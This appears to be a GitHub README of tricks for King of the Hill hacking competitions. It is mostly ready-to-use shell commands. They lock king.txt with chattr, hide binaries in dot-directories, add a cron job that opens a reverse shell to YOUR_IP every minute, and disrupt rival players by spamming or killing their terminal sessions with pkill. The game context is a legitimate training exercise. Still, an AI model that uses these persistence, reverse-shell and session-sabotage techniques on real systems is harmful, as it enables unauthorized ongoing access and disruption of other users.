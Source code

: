 # KOTH-Tricks
## Make king.txt unwritable
### Using noclobber
```
set -o noclobber /root/king.txt
```
### Using chattr
```
 chattr +ai /root/king.txt
```
If chattr binary is not present on the machine you can download it into your machine and after compiling you can upload into KOTH_machine and use it

Downloading into Local Machine
 ```
wget https://github.com/posborne/linux-programming-interface-exercises/blob/master/15-file-attributes/chattr.c
gcc chattr.c -o chattr
```
Uploading to KOTH_machine
```
python3 -m http.server 8080       //on your local machine start a python server
wget http://yourip:port/chattr   //on the KOTH_machine for download the binary
chmod +x chattr
./chattr +ai /root/king.txt
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use . for creating hidden directory where you can store your binaries
```
mkdir .hidden_folder
cd .hidden_folder
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use Cronjobs for automation
> Run 'crontab -e' and paste these line
### Reverse shell
```
* * * * * /bin/sh -i >& /dev/tcp/YOUR_IP/LISTENING_PORT 0>&1
```
### Write to king.txt
```
* * * * * echo "USERNAME" > /root/king.txt >/dev/null 2>&1
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Breaking opponent shell
### find opponent pts using these commands
```
ps aux | grep pts
who
w
```
### Spam urandom to opponent shell
```
cat /dev/urandom >/dev/pts/#
```
>  NOTE: place opponent pts in place of '#' 
### Using script
```
script -f /dev/pts/#
```
### Spam your username to opponent shell
```
while true; do echo 'YOUR_USERNAME' >/dev/pts/#; done 
```
### Kill opponent shell
```
pkill -9 -t pts/#
```
### Using nyancat
Downloading nyancat to local Machine
```
git clone https://github.com/klange/nyancat
cd nyancat/src
make
```
Sending nyancat to KOTH_machine
```
python3 -m http.server 8080        //on your local machine start a python server into 'nyancat/src' folder
wget http://yourip:port/nyancat   //on the KOTH_machine
chmod +x nyancat
./nyancat > /dev/pts/#
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## while loop Tricks
```
while [[ $(cat /root/king.txt) != "YOUR_USERNAME" ]]; do echo "YOUR_USERNAME" > /root/king.txt; done
while true; do chattr -ia /root/king.txt 2>/dev/null; echo "YOUR_USERNAME" >/root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done
```
# Keep connected more coming in future......
